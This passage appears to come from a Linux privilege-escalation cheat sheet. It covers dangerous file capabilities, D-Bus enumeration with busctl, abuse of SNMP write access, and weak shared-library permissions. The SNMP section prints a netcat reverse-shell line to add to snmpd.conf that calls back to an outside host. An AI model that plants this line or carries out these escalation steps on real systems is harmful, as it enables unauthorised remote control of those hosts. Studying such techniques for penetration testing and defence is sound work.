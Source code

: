 *Note that on some systems, getcap is not available for all users*

###### *If you don't know, now you know: [Capabilities](https://linux.die.net/man/7/capabilities)*

Starting with kernel 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as *capabilities*, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

Some capabilities to look for are:

- **CAP_CHOWN**: Make arbitrary changes to file UIDs and GIDs (SUIDs and SGIDs as well)
- **CAP_DAC_OVERRID**: Bypass file read, write, and execute permission checks.
- **CAP_DAC_READ_SEARCH**: Bypass file read permission checks and directory read and execute permission checks
- **CAP_SETGID**: Make arbitrary manipulations of process GIDs and supplementary GID list
- **CAP_SETUID**: Make arbitrary manipulations of process UIDs
- **CAP_SYS_PTRACE**: Transfer data to or from the memory of arbitrary processes

Note that **=ep** is equal to ALL the capabilites permitted (p) and effective (e) from the start.

### D-Bus Enumeration

**D-Bus** is an IPC mechanism initially designed to replace the software component communications systems used by the GNOME and KDE Linux desktop environments.

Each service is defined by the **objects** and **interfaces** that it exposes.

We can think of objects as instances of classes in standard OOP languages.

```bash
busctl list # List D-Bus interfaces
busctl status INTERFACE
busctl tree INTERFACE # Get Interfaces of the service object
busctl introspect INTERFACE SERVICE_OBJECT # Get methods of the interface
```

### SNMP

If you have a SNMP community with write permissions we can archive code execution by abusing the **NET-SNMP-EXTEND-MIB extension**

The Net-SNMP Agent provides an extension MIB (NET-SNMP-EXTEND-MIB) that **can be used to query arbitrary shell scripts**. To specify the shell script to run, use the extend directive in the /etc/snmp/snmpd.conf file. Once defined, the Agent will provide the exit code and any output of the command over SNMP.

In order to **extend** you in order to get a remote shell, you need to add the following to the /etc/snmp/snmpd.conf file:
extend shell /bin/nc 192.168.0.1 4444 -e /bin/bash

### Shared library

A **shared library** or **shared object** is a file that is intended to be **shared** by executable files and further shared object files.

Linux shared libraries combined with weak file permissions can be used to execute arbitrary code and compromise Linux system.
